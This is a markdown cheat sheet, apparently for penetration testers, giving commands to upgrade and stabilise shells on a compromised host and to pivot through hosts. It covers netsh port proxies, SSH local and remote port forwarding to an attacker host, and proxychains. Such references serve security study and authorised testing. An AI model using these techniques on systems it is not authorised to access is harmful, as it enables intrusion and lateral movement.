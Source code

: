 # Shells

## Upgrading Shells

    $ python -c 'import pty; pty.spawn("/bin/bash")'

    $ ruby -e 'exec "/bin/sh"'

    $ /bin/sh -i

    $ /bin/bash -i

    $ perl -e 'exec "/bin/sh";'

-------

## Upgrading Shells Further

`Things seem off? Sometimes this can return functionality like arrow keys in a shell:`

    victim $ <Ctrl>z
    attacker $ stty raw -echo
    attacker $ fg
    victim $ reset
    victim $ export SHELL=bash
    victim $ export TERM=xterm-256color
    victim $ stty rows 40 columns 80

------

## Netsh Port Proxy

    pivot c:\> netsh interface portproxy add v4tov4 listenport=4000 listenaddress=0.0.0.0 connectport=22 connectaddress=victim.tgt
    attacker $ ssh victimadmin@pivot.tgt

------

## SSH trail through Linux

    attacker $ ssh pivotAdmin@pivot.tgt
    pivot $ ssh victimAdmin@victim.tgt

------

## SSH

Set GatewayPorts `yes` in /etc/ssh/sshd_config, then:

    pivot # systemctl restart sshd

### CLI Options

| **Flag** | **Description** |
|----------|-----------------|
| `-f` | put ssh in the background after connecting |
| `-N` | don’t execute a command; just forward some ports |
| `-P` | num use “num” port for ssh |

### SSH Local Port Forward

    attacker $ ssh -fNL 1337:victim.tgt:22
    pivoter@pivot.tgt attacker $ ssh victimadmin@localhost -P 1337

### SSH Remote Port Forward

    pivot $ ssh -fNR 1337:victim.tgt:22 attacker@attacker.tgt
    attacker $ ssh victimadmin@localhost -P 1337

### Proxychains

check /etc/proxychains.conf

    attacker $ ssh pivotadmin@pivot.tgt -D 9050 -fN
    attacker $ proxychains ssh victimadmin@victim.tgt

